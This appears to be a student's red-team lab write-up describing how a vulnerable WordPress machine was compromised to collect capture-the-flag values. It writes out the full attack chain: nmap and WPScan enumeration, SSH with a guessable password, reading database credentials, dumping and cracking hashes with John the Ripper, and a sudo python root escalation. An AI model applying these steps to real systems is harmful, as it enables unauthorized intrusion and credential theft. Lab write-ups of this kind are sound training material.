 # Red Team: Summary of Operations

## Table of Contents
- Exposed Services
- Critical Vulnerabilities
- Exploitation

### Exposed Services

Nmap scan results for each machine reveal the below services and OS details:

![image](Screenshots/NmapScan.JPG "Nmap Scan Results")

```bash

$ nmap -sV 192.168.1.110

 - Port 22/TCP Open SSH
 - Port 80/TCP Open HTTP
 - Port 111/TCP Open rcpbind
 - Port 139/TCP Open netbios-ssn
 - Port 445/TCP Open netbios-ssn
 
```

This scan identifies the services below as potential points of entry:
- Target 1
  - List of Exposed Services
   - Port 22/TCP Open SSH
   - Port 80/TCP Open HTTP


The following vulnerabilities were identified on each target:
- Target 1
  - allowed remote access usign ssh 
  - User enumeration
  - Weak Passwords 
  - Misconfiguration of priviledges 

### Exploitation

The Red Team was able to penetrate `Target 1` and retrieve the following confidential data:
- Target 1
  - `flag1{b9bbcb33e11b80be759c4e844862482d}`
- **Exploit Used**
   - Used WPScan to enumerate users on the target machine 

![image](Screenshots/WPScan.JPG)
   
      - then used ssh to remote access target 1 and logged into micheal's account with an easy to guess password. 
      - Username: michael
      - Password: michael 
      - Commands used: 
        - ssh michael@192.168.1.110 -p22
        - cd ..
        - cd ..
        - cd var/www/html
        - ls
        - nano service.html
   
![image](Screenshots/Flag1.JPG)
    
  - `flag2 {fc3fd58dcdad9ab23faca6e9a36e581c}`
  - **Exploit Used**
    - Same as flag1. A flag2.txt file was found by snooping around in Micheal's account folders
    - Commands used:
     - cd ..
     - cd ..
     - ls
     - cat flag2.txt
      
 ![image](Screenshots/Flag2.JPG)
 
  - flag3 {afc01ab56b50591e7dccf93122770cd2} 
  - flag4 {715dea6c055b9fe3337544932f2941ce}
  - **Exploit Used** 
    - Used credentials from wp-config.php file for MYSQL database, I logged into MYSQL. Flags 3 and 4 were found in the wp_posts tabel in the MYAQL wordpress database   
 
 ![image](Screenshots/Flag3and4.JPG)
 
 - Flag 4 can also also be foud using the following method
   - Use MySQl credentials in the wp-config file located on Micheal's account to log into MySQL. 
   - User hashes were also discovered in the wp_users table of the wordpress database. The password hashes were then copied to the Kali machine in a file called wp_hashes.txt.
        
![MySQL Credentials](Screenshots/MYSQLDatabasePassword.JPG)

![MySQL Access](Screenshots/MYSQLDatabaseAcess.JPG)

- Commands used:
    - mysql -u root -p (password: R@v3nSecurity from the wp-config.php file on michael's account)
    - show databases;
    - use wordpress; 
    - show tables;
    - select * from wp_users;

![MySQL Hashes](Screenshots/MYSQLPasswordHashes.JPG)

 - After dumping the password hashes into a wp_hashes.txt file onto the Kali machine, I used John the Ripper to crack steven's password
 - Command: `john wp_hashes.txt`
 - Once Steven’s password hash was cracked, the next thing to do was SSH as Steven. Then I used sudo -l to check for steven's priviledges which showed that he was allowed to run python commands with out credentials. 
 
 ![Cracked Steven's Hash](Screenshots/JohnCrackedHashSteven.JPG)
 
 ![Steven's Priviledges](Screenshots/StevenPriviledges.png)
 
            - Commands: 
                - ssh steven@192.168.1.110
                - pw:pink84
                - sudo -l
                - sudo python -c 'import os; os.system("bin/bash/")
                - cd /root
                - ls
                - cat flag4.txt
                
![Falg 4](Screenshots/flag4.png)

